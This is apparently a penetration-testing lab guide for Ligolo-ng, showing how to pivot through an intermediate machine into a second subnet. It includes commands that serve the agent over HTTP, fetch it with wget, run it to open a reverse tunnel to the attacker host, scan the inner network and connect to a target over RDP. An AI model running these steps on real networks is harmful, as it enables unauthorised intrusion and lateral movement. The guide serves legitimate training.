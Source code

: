 ### **Ligolo-ng Overview and Usage Guide**

**Ligolo-ng** is a **simple**, **lightweight**, and **fast** tunneling tool designed for penetration testers. It enables the creation of tunnels over reverse TCP/TLS connections using a **TUN interface** — eliminating the need for a SOCKS proxy.

🔗 GitHub Repo: https://github.com/nicocha30/ligolo-ng

📦 Download Server (Proxy) and Agent: [Ligolo-ng v0.8 Releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8)

Lab Setup:

![image](https://github.com/user-attachments/assets/d4cb2435-9821-45da-bc24-c080fee8f780)


--
### 🖥️ **Running the Ligolo-ng Server (Proxy)**

1. **Unzip the downloaded release.**
2. **Run the proxy with a self-signed certificate:**

```jsx
./proxy --selfcert
```

![image](https://github.com/user-attachments/assets/dff88f9e-c4e2-4484-8636-91f21e4e7cbd)


### 🌐 **Serving the Agent to the Intermediate Machine**

1. **Start a simple HTTP server on your local machine to serve the agent file:**

```jsx
python -m http.server --bind 192.168.188.130 8888
```

![image](https://github.com/user-attachments/assets/c073ea31-ff61-4077-ba06-5dacf381a8b8)


### 📥 **Deploy the Agent to the Intermediate Machine**

1. **SSH into the intermediate machine:**
2. Download the agent file via `wget`:

```jsx
ssh [shankar@192.168.188.135](mailto:shankar@192.168.188.135)
wget http://192.168.188.130:8888/agent
```

![image](https://github.com/user-attachments/assets/f03ed78c-e65b-40e4-bc0e-c4f821074315)


### ▶️ **Running the Agent**

1. **Make the agent executable and run it:**

```jsx
chmod +x agent
./agent --connect 192.168.188.130:11601 -ignore-cert
```

![image](https://github.com/user-attachments/assets/e6dadf33-a4ec-4d40-aaf3-addb727f4837)


### 🧭 **Network Discovery**

1. **Check the IP address of the intermediate machine:**

```jsx
ifconfig
```

![image](https://github.com/user-attachments/assets/27d93758-dbeb-4820-910a-8009d83036c8)


2. Enumerate the target network (e.g., `192.168.11.0/24`):

```jsx
sudo netdiscover -i ens37 -r 192.168.11.0/24
```

![image](https://github.com/user-attachments/assets/3cf76d44-6393-4a7b-b209-bf5ec7179570)


### 🖥️ **Remote Desktop to the Target**

1. **Use Remmina (or any RDP client) to connect to the target system:**

```jsx
remmina -c rdp://john@192.168.11.131
```

![image](https://github.com/user-attachments/assets/1e54e495-83b1-4df5-9763-8a762b9d9083)

